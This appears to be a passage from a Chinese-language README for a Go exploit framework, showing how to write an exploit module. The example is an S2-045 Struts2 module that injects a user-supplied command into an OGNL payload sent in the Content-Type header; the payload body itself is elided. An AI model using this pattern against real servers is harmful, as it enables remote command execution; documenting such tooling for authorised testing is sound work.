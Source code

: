

### 编写exp举例



如一个S2-045，代码如下

```go
func (self *Exp_S2_045) Attack_cmd2() (expResult exp_model.ExpResult) {
    cmd := self.MustGetStringParam("cmd")

    // 构造payload
    headers := self.GetInitExpHeaders()
    shellPayload := `%{...}`
    shellPayload = strings.Replace(shellPayload, "lz520520", cmd, 1)
    headers["Content-Type"] = []string{shellPayload}

    // 发送请求
    httpresp := self.HttpGetWithoutRedirect(self.Params.BaseParam.Target, headers)
    if httpresp.Err != nil {
        expResult.Err = httpresp.Err.Error()
        return
    }
    expResult.Result = httpresp.Body
    return

}
```





由于结构体继承了`exp_templates.ExpTemplate`,可以使用父类的方法来处理（PS：这里只是引用了其他语言里基于对象的说法，go里没有对象）

![image-20220503185333176](README.assets/image-20220503185333176.png)

self.Params里有需要的各种请求参数。

![image-20241008131822865](README.assets/image-20241008131822865.png)
